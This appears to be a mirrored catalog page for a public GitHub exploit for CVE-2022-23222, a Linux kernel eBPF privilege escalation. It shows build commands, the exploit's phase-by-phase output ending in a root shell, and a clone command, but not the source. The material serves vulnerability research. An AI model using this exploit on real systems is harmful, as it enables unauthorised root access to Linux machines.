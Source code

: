# CVE-2022-23222

CVE-2022-23222: Linux Kernel eBPF Local Privilege Escalation

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/tr3ee](https://github.com/tr3ee) |
| Url      | [https://github.com/tr3ee/CVE-2022-23222](https://github.com/tr3ee/CVE-2022-23222)                                               |
| Stars    | 529                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-23222

Chinese writeup: https://tr3e.ee/posts/cve-2022-23222-linux-kernel-ebpf-lpe.txt

For educational/research purposes only. Use at your own risk.

## Build & Run

```bash
$ make
cc -I include -static -w -o exploit exploit.c
$ ./exploit 
[*] phase(1/8) 'create bpf map(s)' running
[+] phase(1/8) 'create bpf map(s)' done
[*] phase(2/8) 'do some leak' running
[+] phase(2/8) 'do some leak' done
[*] phase(3/8) 'prepare arbitrary rw' running
[+] phase(3/8) 'prepare arbitrary rw' done
[*] phase(4/8) 'spawn processes' running
[+] phase(4/8) 'spawn processes' done
[*] phase(5/8) 'find cred (slow)' running
[+] phase(5/8) 'find cred (slow)' done
[*] phase(6/8) 'overwrite cred' running
[+] phase(6/8) 'overwrite cred' done
[*] phase(7/8) 'spawn root shell' running
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=65534(nobody)
# exit
[+] phase(7/8) 'spawn root shell' done
[*] phase(8/8) 'clean up the mess' running
[+] phase(8/8) 'clean up the mess' done
```


## Get the content

```
git clone https://github.com/tr3ee/CVE-2022-23222
cd CVE-2022-23222
```

{% embed url="https://github.com/tr3ee/CVE-2022-23222" %}

<figure><img src="https://avatars.githubusercontent.com/u/26628940?v=4" alt=""><figcaption><p>tr3ee</p></figcaption></figure>
